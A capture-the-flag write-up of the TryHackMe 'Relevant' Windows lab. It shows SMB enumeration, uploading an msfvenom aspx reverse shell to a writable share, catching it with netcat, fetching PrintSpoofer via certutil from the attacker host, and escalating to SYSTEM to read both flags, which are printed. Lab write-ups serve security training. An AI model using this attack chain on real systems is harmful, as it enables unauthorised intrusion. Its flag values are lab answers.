 #tryhackme #autorecon #oscp-report #print-spoofer #crackmapexec #asp #webshell #privilege-token #windows #msfvenom #certutil 

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

**Scope of Work**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.  

****Writeups will not be accepted for this room.****

# Report

> Used SysReporter to finish OSCP-like format report - https://labs.sysre.pt/projects/776be3b6-c60e-427b-8614-1914a9275ea5/

[OSCP-Like Report](../../attachment/aa8d06b460116061e2584ecc422a18fa.pdf)

# Notes

> Potato Cheatsheet https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer

## Recon

### Autorecon

```bash
sudo $(which autorecon) -vv -m 5 --dirbuster.threads 50 10.10.19.222
```

### CrackMapExec

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ cme smb 10.10.193.232 -u a -p '' --shares
SMB         10.10.193.232   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.193.232   445    RELEVANT         [+] Relevant\a:
SMB         10.10.193.232   445    RELEVANT         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.193.232   445    RELEVANT         [+] Enumerated shares
SMB         10.10.193.232   445    RELEVANT         Share           Permissions     Remark
SMB         10.10.193.232   445    RELEVANT         -----           -----------     ------
SMB         10.10.193.232   445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.193.232   445    RELEVANT         C$                              Default share
SMB         10.10.193.232   445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.193.232   445    RELEVANT         nt4wrksv        READ,WRITE
```

## Exploitation

### Initial Access

![](../../attachment/3fb4f8b3594357b640e58f1144de8f42.png)

Since I have write access to `nt4wrksv`

Upload an `aspx` reverse shell

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1111 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3406 bytes
Saved as: rev.aspx

┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ smbclient.py a@10.10.193.232 -no-pass
Impacket v0.10.1.dev1+20230620.44942.4888172 - Copyright 2022 Fortra

Type help for list of commands
# use nt4wrksv
# put rev.aspx
# ls
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 .
drw-rw-rw-          0  Fri Jun 23 08:00:35 2023 ..
-rw-rw-rw-         98  Sat Jul 25 11:35:44 2020 passwords.txt
-rw-rw-rw-       3406  Fri Jun 23 08:00:35 2023 rev.aspx
#
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant/www]
└─$ curl http://10.10.193.232:49663/nt4wrksv/rev.aspx
```

```bash
┌──(kali㉿kali)-[~/thm/Relevant]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.193.232] 49929
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  21,052,596,224 bytes free

C:\Users>cd Bob
cd Bob

C:\Users\Bob>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  02:04 PM    <DIR>          Desktop
               0 File(s)              0 bytes
               3 Dir(s)  21,052,596,224 bytes free

C:\Users\Bob>cd Desktop
cd Desktop

C:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
C:\Users\Bob\Desktop>
```

### Privilege Escalation

```bash
C:\ProgramData>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Potato attacks will not work on this machine, the creator made some defense for it

> Using PrintSpoofer to gain SYSTEM privilege for the interactive shell

```bash
c:\windows\system32\inetsrv>cd C:\Programdata
cd C:\Programdata

C:\ProgramData>certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
certutil -urlcache -split -f http://10.11.19.145/PrintSpoofer64.exe ps.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.

C:\ProgramData>ps.exe -i -c powershell
ps.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system

PS C:\Windows\system32> cat C:\Users\Administrator\Desktop\root.txt
cat C:\Users\Administrator\Desktop\root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
PS C:\Windows\system32>
```


